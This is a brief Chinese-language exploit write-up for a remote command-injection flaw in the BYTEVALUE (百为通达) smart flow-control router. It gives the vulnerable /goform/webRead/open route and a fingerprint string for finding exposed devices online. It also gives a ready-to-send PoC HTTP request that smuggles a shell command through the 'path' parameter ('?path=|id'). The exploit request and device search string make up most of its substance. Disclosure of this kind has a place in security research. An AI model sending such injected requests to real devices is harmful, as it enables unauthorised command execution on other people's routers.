

# 百为通达 智能流控路由器 open 远程命令执行漏洞

## 漏洞描述

BYTEVALUE 百为流控路由器是一款追求带宽利用率的多功能路由器。百为智能流控路由器 /goform/webRead/open 路由存在有回显的命令注入漏洞。

## 漏洞影响

<a-checkbox checked>百为通达 智能流控路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"BYTEVALUE 智能流控路由器"</a-checkbox></br>

## 漏洞复现

登陆页面


验证POC

```php
GET /goform/webRead/open/?path=|id HTTP/1.1
Host:
```

